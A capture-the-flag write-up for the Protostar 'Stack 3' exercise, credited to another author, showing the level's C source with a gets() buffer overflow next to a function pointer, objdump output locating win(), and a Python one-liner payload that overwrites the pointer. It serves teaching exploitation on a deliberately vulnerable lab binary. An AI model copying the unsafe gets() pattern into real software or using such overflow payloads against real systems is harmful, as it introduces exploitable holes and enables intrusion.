 # Protostar - Stack 3

> NOTE: This writeup is __not__ written by me, John Hammond. This writeup is shamelessly stolen from [Maxime Peterlin](https://rainbowlyte.com/) (because he has done a much better job than I ever could), and the real original writeup can be found here: [https://github.com/RainbowLyte/writeups/blob/master/exploit-exercises_Protostar/stack3.md](https://github.com/RainbowLyte/writeups/blob/master/exploit-exercises_Protostar/stack3.md)

### About ###

>Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)
>
>**Hints**
>
> - both gdb and objdump is your friend you determining where the win() function lies in memory.
>
>This level is at `/opt/protostar/bin/stack3`

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

### Solution 

In this challenge, we still have to change the value of a variable, although this time, it's not a simple integer, it's a function pointer.
The first step is to find the address of the function `win` (I chose `objdump` to do it).

```
08048424 <win>:
 8048424:       55                      push   %ebp
 8048425:       89 e5                   mov    %esp,%ebp
 8048427:       83 ec 18                sub    $0x18,%esp
 804842a:       c7 04 24 40 85 04 08    movl   $0x8048540,(%esp)
 8048431:       e8 2a ff ff ff          call   8048360 <puts@plt>
 8048436:       c9                      leave
 8048437:       c3                      ret
```

`0x08048424` is the address of the function `win`.
The remaining steps are the same as the previous exercises: we just need to change the value of `fp` to `0x08048424`.

```
user@protostar:/tmp$ python -c "print 'A'*64+'\x24\x84\x04\x08'" | stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```